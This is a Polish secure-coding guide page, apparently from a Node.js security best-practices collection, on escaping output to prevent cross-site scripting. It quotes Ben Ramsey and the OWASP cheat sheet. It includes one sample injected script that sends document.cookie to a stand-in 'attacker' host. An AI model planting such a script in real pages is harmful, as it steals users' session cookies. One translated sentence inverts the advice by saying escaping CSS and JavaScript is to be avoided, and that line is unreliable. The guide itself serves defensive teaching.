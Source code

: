 # Escape Output

### Wyjaśnienie jednym akapitem

HTML i inne języki internetowe mieszają zawartość z kodem wykonywalnym - pojedynczy akapit HTML może zawierać wizualną reprezentację danych wraz z instrukcjami wykonywania JavaScript. Podczas renderowania HTML lub zwracania danych z API uważamy, że czysta treść może w rzeczywistości zawierać kod JavaScript, który zostanie zinterpretowany i wykonany przez przeglądarkę. Dzieje się tak na przykład podczas renderowania treści wstawionych przez osobę atakującą do bazy danych - na przykład `<div> <script> // szkodliwy kod </script> </div>`. Można to złagodzić, instruując przeglądarkę, aby traktowała każdą część niezaufanych danych tylko jako treść i nigdy jej nie interpretowała - ta technika nazywa się ucieczką. Wiele bibliotek NPM i silników szablonów HTML zapewnia możliwość zmiany znaczenia (przykład: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi)). Należy unikać ucieczki nie tylko treści HTML, ale także CSS i JavaScript

### Przykład kodu - Nie umieszczaj niezaufanych danych w swoim HTML

```javascript
<script>...NEVER PUT UNTRUSTED DATA HERE...</script>   directly in a script

 <!--...NEVER PUT UNTRUSTED DATA HERE...-->             inside an HTML comment

 <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       in an attribute name

 <NEVER PUT UNTRUSTED DATA HERE... href="/test" />   in a tag name

 <style>...NEVER PUT UNTRUSTED DATA HERE...</style>   directly in CSS

```

### Przykład kodu - złośliwe treści, które mogą zostać wstrzyknięte do bazy danych

```javascript
<div>
  <b>A pseudo comment to the a post</b>
  <script>window.location='http://attacker/?cookie='+document.cookie</script>
</div>
```

<br/><br/>

### Cytat na blogu: „Gdy nie chcemy, aby znaki były interpretowane”

Z Bloga [benramsey.com](https://benramsey.com/articles/escape-output/)

> Data may leave your application in the form of HTML sent to a Web browser, SQL sent to a database, XML sent to an RSS reader, WML sent to a wireless device, etc. The possibilities are limitless. Each of these has its own set of special characters that are interpreted differently than the rest of the plain text received. Sometimes we want to send these special characters so that they are interpreted (HTML tags sent to a Web browser, for example), while other times (in the case of input from users or some other source), we don’t want the characters to be interpreted, so we need to escape them.

> Escaping is also sometimes referred to as encoding. In short, it is the process of representing data in a way that it will not be executed or interpreted. For example, HTML will render the following text in a Web browser as bold-faced text because the <strong> tags have special meaning:
> <strong>This is bold text.</strong>
> But, suppose I want to render the tags in the browser and avoid their interpretation. Then, I need to escape the angle brackets, which have special meaning in HTML. The following illustrates the escaped HTML:

&lt;strong&gt;This is bold text.&lt;/strong&gt;

<br/><br/>

### Cytat na blogu: "OWASP recommends using a security-focused encoding library"

Z bloga OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](<https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>)

> "Writing these encoders is not tremendously difficult, but there are quite a few hidden pitfalls. For example, you might be tempted to use some of the escaping shortcuts like \" in JavaScript. However, these values are dangerous and may be misinterpreted by the nested parsers in the browser. You might also forget to escape the escape character, which attackers can use to neutralize your attempts to be safe. **OWASP recommends using a security-focused encoding library to make sure these rules are properly implemented**."

<br/><br/>

### Cytat na blogu: "You MUST use the escape syntax for the part of the HTML"

Z bloga OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](<https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>)

> "But HTML entity encoding doesn't work if you're putting untrusted data inside a <script> tag anywhere, or an event handler attribute like onmouseover, or inside CSS, or in a URL. So even if you use an HTML entity encoding method everywhere, you are still most likely vulnerable to XSS. You MUST use the escape syntax for the part of the HTML document you're putting untrusted data into."
